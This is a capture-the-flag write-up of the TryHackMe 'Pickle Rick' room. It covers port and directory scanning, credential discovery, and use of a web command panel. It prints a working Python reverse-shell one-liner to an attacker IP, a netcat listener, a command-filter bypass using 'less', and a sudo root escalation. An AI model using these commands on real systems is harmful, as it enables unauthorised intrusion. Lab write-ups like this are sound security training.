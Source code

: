 # TryHackMe-Pickle-Rick
This is a writeup for Pickle Rick TryHackMe machine!  
https://tryhackme.com/room/picklerick

## Scanning & Enumeration

To begin with this machine, we will perform a nmap scan on our target:

```
nmap -sV -sC -T5 10.10.122.153
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 01:01 EDT
Nmap scan report for 10.10.122.153
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:d6:1c:ca:5e:5c:3f:14:83:d4:21:07:b1:01:76:c1 (RSA)
|   256 61:2e:22:78:78:b9:d7:7e:c9:77:2d:d3:29:07:07:da (ECDSA)
|_  256 07:64:71:80:17:56:a6:79:61:bd:d4:09:f3:85:15:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Service Enumeration
### Port 22 - SSH
### Port 80 - HTTP

Now we'll proceed to visit the website located at port 80
![image_2024-04-26_001448881](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/028603ac-1f72-4fd7-8b5a-83b00aa96054)
This is the first thing we see on the website, if we take a view on the page source we can find this
![image_2024-04-26_001731557](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/01135460-5b08-40c8-bfb3-cae0ffbea415)
Looks like we found an username, next, we will proceed to find hidden directories that may have been hidden from us
## Directory Fuzzing
## Using Gobuster
**Gobuster** is a tool used to brute-force:
* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).
* Virtual Host names on target web servers.
* Open Amazon S3 buckets.
* Open Google Cloud buckets.
* TFTP servers
#### If you wish to install Gobuster, here is the link to the official github repository: https://github.com/OJ/gobuster
```
gobuster dir -u 'http://10.10.122.153/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 --no-error -x php,sh,txt,cgi,html,css,js,py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.122.153/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,sh,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1062]
/assets               (Status: 301) [Size: 315] [--> http://10.10.122.153/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```
This are some directory gobuster could find for us, we could be interested in **/login.php** so we will navigate into it
![image_2024-04-26_003529817](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bbb9309b-3f13-431f-9c04-31f441a966f2)
We will find a login page, we already have the username but we lack the password, so we can keep with the directory fuzzing
At some point, we will encounter a file called **robots.txt**, most websites will have a robots.txt file which basically tells the sitee what it is allowed and not allowed to index.
If we check the robots.txt file we will encounter
![image_2024-04-26_003953275](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/f874ffe2-2943-4d26-991e-d1a19f75a39b)
This could be the password for our **/login.php** so lets try
![image_2024-04-26_004100740](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a0f5cb3e-e8eb-40fd-949e-1416b55078db)
And we were right, it was indeed the password for our **/login.php**
## Command Panel
The site we were redirected has a command panel, so, lets try to execute some simple command to see if it allows us to do so
![image_2024-04-26_004451144](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/9fb45fdf-e904-4727-a731-71c03ef058e0)
And with this, we realize we can actually execute commands, if we try to execute a **cat** in Sup3rS3cretPickl3Ingred.txt, we are disallowed to perform it
![image_2024-04-26_004650641](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/488fe1f4-f619-46bc-a066-36a7ea11114c)
We can read the file if we do this though
```
http://<ip>/Sup3rS3cretPickl3Ingred.txt
```
And like that, we will have the first ingredient

At this point, we could go for two ways on exploiting this machine to get the other ingredientes

## First way
### Getting a reverse shell through command panel
First, we can search the python version with 
```
which python3
which python2
which python
```
We will find this
![image_2024-04-26_005506068](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/00f2e85c-1ce6-4aa0-bb96-c120d5d09188)
Ok, so now we know that python3 is on this machine so lets get a reverse shell using this:
`python3 -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<yourIp>",<listeningPort>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
Before we execute the command we need a netcat set on the port we specified like this

![image_2024-04-26_005931396](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/28f227fb-d676-4c0b-9a7e-5797d115a2bb)

If everything is working right, we will receive a reverse shell on our listening port

![image_2024-04-26_010239772](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/959d6e72-01b1-4c63-a953-ccd4d6226ed5)

We can upgrade this shell using `bash -i`
So, with this shell, we are way more comfortable moving around the machine without needing to use the command panel
Lets search for the other ingredients

![image_2024-04-26_010637175](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/059b7936-ce3a-410b-9197-0cf37deebe78)

If we move to this directory and do a `ls` on it, we will find the second ingredient

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/6fab408b-ff97-424a-ae4e-5d36c30ea34b)

Or we can just ls the directory to see what is inside of it

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a33781a9-c3d7-45c6-9c04-862b6a78352d)

We will find the third ingredient on **/root** but if we try to `cd` on it, we will find we are unable to do it, so lets check for our privileges with `sudo -l`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/70d7d8f8-d240-4304-9b52-8d068f9c4dcc)

To our surprise, all commands are allowed without any password needed so lets just do a `sudo bash -i` to escalate our session into a root one

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/819bc036-1b5d-4891-8c6c-e4ad6652600c)

And just like that we are user root and now we can read the third ingredient within the /root directory

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a3d4301f-0bae-4b87-a2f4-92da370c1481)

## Second Way

If we decide to take this path, we need to proceed with our command panel we already have in **/portal.php** so, lets begin

If we perform a `ls` on the command panel we can also find a file called **clue.txt**, if we go to the route of this file like we did with the first ingredient we will find this

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bce2d97a-308d-4494-89d2-9d8e67583a05)

After a while looking around the system we can find the second ingredient at **/home/rick**

As we know, `cat` command is disabled for the command panel, so if we research around internet we find that we can use `less` command to view the content of the file in the next way
`less '/home/rick/second ingredient'`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/175ef234-c04a-406b-be40-80fc55332fc5)

Like that, we are now able to read the content of the second ingredient, so lets read the content of the third ingredient

Lets use `sudo -l` to see which privileges we have

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/38de0a54-f432-4670-a30e-dccc82807ba9)

And for our surprise we are allowed to perform all commands without the need of any kind of password, lets do a sudo ls /root to check this

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/b6197946-fec0-4e9f-89cc-2954764ee77c)

And like that we were able to find the name of the third ingredient, so if we want to read it, we will just use `less` command in this way 

`sudo less /root/3rd.txt`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/273ecced-a4c1-4e68-8287-fc97c1ec1b7a)

# And just like that you have completed this room!





